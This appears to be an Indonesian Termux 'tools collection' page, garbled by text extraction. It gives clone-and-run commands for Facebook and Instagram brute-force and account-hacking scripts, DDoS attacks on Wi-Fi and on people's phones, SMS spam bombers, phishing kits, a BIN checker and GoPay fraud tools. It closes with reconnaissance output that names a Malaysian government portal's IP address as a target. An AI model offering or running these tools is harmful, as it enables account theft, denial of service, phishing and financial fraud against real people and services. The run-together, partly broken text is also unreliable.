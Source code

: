 update &amp;&amp; apt upgrade $ apt install git $ apt install python2 $ pip2 install mechanize $ git clone https://github.com/FR13ND8/BRUTEFORCEnew $ cd BRUTEFORCEnew $ sh new.sh _______________ 🔰Hack ig🔰  $ pkg install nano $ pkg install figlet  $ pkg install python2 $ pip2 install lolcat  $ pkg install cowsay $ pkg install git $ git clone https://github.com/darkcurut08/darkcurut08 $ cd darkcurut08 $ sh Moreno77.sh _______________  🔰Hack Facebook Terbaru🔰  $ apt update &amp;&amp; apt upgrade $ pkg ins toilet $ pkg ins figlet $ pkg ins ruby $ pkg ins gem $ gem ins lolcat $ pkg ins php $ pkg ins python2 $ pkg ins git $ git clone https://github.com/Rusmana-ID/rus, $ cd rus $ sh v2.sh  rename: Anak pw: Bangsa _______________ 🔰TOOLS SADAP🔰  $ apt update &amp;&amp; apt upgrade $ apt install php git $ apt install bash $ git clone https://github.com/MrTamfanX/TamfanFacebook $ cd TamfanFacebook $ chmod +x * $ chmod -R 775 lib $ sh install.sh $ sh tamfan.sh _______________ 🔰DDos Attack WI-FI🔰  $ apt update &amp;&amp; apt upgrade $ apt install python2 $ apt install git $ $ cd LITEDDOS  Cek:https://ipsaya.com/hostinglokasi.php  $ python2 LITEDDOS.py [IP target] 80 100 _______________ 🔰DDos Attack HP Orang 🔰  $ apt update &amp;&amp; apt upgrade $ pkg install python2 $ pip2 install mechanize $ pip2 install request $ pkg install git $ git clone https://github.com/R133F/Trojans $ cd Trojans $ python2 trojans.py   DDOS WiFi nya masih work  Hack Fb Target New  ------------------------------------------  pkg install git pkg install python2 pip2 install --upgrade pip pip2 install mechanize git clone https://github.com/MRA27/FBNEWV2 cd FBNEWV2 python2 MRA27.py 100003191711187   apt update &amp;&amp; apt upgrade apt install php apt install python2 apt install toilet apt install git git clone https://github.com/4L13199/LITESPAM cd LITESPAM sh LITESPAM.sh  Oke langsung saja ke penginstalannya..  $ apt update &amp;&amp; apt upgrade $ apt install git $ apt install php $ apt install figlet $ apt install toilet $ apt install python2 $ pip2 install requests $ pip2 install termcolor $ git clone https://github.com/DarknessCyberTeam/BAJINGANv6.git $ cd BAJINGANv6 $ sh BAJINGAN.sh Masukkan Username Ini username : BAJINGAN Masukkan Password Ini password :  Gans Kumpulan Tools By InYourG00D Izin promosi biar laku ea  Nuub Numpang Lewat  Silahkan Cek https://github.com/InYourG00D1 Disitu Ada Tools Bermanfaat :V Work gk? lu cobain aja   ÷Kumpulan Kode Unik fb÷ $ pkg install update &amp;&amp; pkg install upgrade $ apt install toilet $ apt install figlet $ gem install lolcat $ pkg install git $ git clone https://github.com/InYourG00D1/Unix $ cd Unix $ sh KD-FB.sh  ÷Tools Check BIN÷ $ pkg install update &amp; pkg install upgrade $ pkg install git $ git clone https://github.com/InYourG00D1/check $ cd check $ php bin.php  ÷Tools Spam bom÷ Vitur  1.Spam bom Bukalapak 2.Spam bom JD-ID 3.Spam Bom PHD 4.Spam Bom Tokoped 5.Spam Bom Hooq 6.Spam Bom KFC 7.Spam bom matahari _Totur nya _ $ pkg install update &amp;&amp; pkg install upgrade $ pkg install toilet $ pkg install figlet $ pkg install lolcat $ pkg install php $ pkg install python2 $ gem install lolcat $ pkg install git $ git clone https://github.com/InYourG00D1/Spam $ cd Spam $ sh ms.sh  ÷Kuota free Khusus Tree÷ $ pkg install update &amp;&amp; pkg install upgrade $ apt install toilet $ apt install figlet $ gem install lolcat $ pkg install git $ git clone https://github.com/InYourG00D1/KuotaFree $ cd KuotaFree $ sh 2.sh  ÷Pulsa Free work100%÷ $ pkg update&amp;&amp;pkg upgrade $ pkg install toilet $ gem install lolcat $ git clone https://github.com/InYourG00D1/PulsaFree $ ls $ cd PulsaFree $ sh Free.sh  ÷Tools Sc Phising All Game÷ Tapi gk semua game juga si :V $ apt update &amp;&amp; apt upgrade $ apt install figlet $ apt install toilet $ gem install lolcat $ pkg install git $ git clone https://github.com/InYourG00D1/ScPh1s1ng $ cd ScPh1s1ng $ sh 6.sh  ÷Kumpulan shell &amp; sc pepes÷ Kalo Ingin Direcode scnya silahkan Hak cipta Jangan Dirubah Hargai mereka coding gan Ngecoding Gk Segampang Dapettin Cinta Kamu $ pkg install update &amp;&amp; pkg install upgrade $ apt install figlet $ apt install toilet $ gem install lolcat $ pkg install git $ git clone https://github.com/InYourG00D1/Pepescers $ cd Pepescers $ sh MTD.sh  ÷Tools ngubah Vidmax jadi Flash÷ Work 100% dicoba aja gan $ pkg install update $ pkg install upgrade $ apt install php $ pkg install git $ git clone https://github.com/InYourG00D1/Flash $ cd Flash $ php flash.php  ÷Tools Nuyul GoPay÷ $ pkg install update $ pkg install upgrade $ apt install php $ pkg install git $ git clone https://github.com/InYourG00D1/Nuyul-GoPay $ cd Nuyul-GoPay $ php Go-Pay.php  ÷Tools Install Bkp÷ Yg punya Kontol BuKan Lu doang Bwahaha Proses Install nya lumayan lama :V Kalo Mau Cepet Cari Ea Sono  $ apt update &amp;&amp; apt upgrade $ apt install figlet $ apt install toilet $ gem install lolcat $ pkg install git $ git clone https://github.com/TumbalGanss/ToolsBkp $ cd ToolsBkp $ sh Tobat.sh  ÷Tools Installer÷ 200 tools  $ apt update &amp;&amp; apt upgrade $ apt install figlet $ apt install toilet $ gem install lolcat $ pkg install git $ git clone https://github.com/InYourG00D1/InstallPlerN2 $ cd InstallPlerN2 $ sh InstallPlerV2.sh  ÷Tools Script Phising All÷ game,FB,Instagram $ apt update &amp;&amp; apt upgrade $ apt install figlet $ apt install toilet $ gem install lolcat $ pkg install git $ git clone https://github.com/InYourG00D1/scPH1S1N9 $ cd scPH1S1N9 $ sh PhisingV2.sh  #shareMhank #nomor Yg ada Di Tools Udh Gk Aktif #Ini New Nomer nya : 0895805133060  https://chat.whatsapp.com/Cj0VpOmWpQBJUEQZqqOLn3  [+] Site Title: MyGOV - The Government of Malaysia's Official Portal [+] IP address: 150.242.182.57 [+] Web Server: Apache [+] CMS: Could Not Detect [+] Cloudflare: Not Detected [+] Robots File: Could NOT Find robots.txt!  TARGET IP=150.242.182.57  PORT:80   TARGET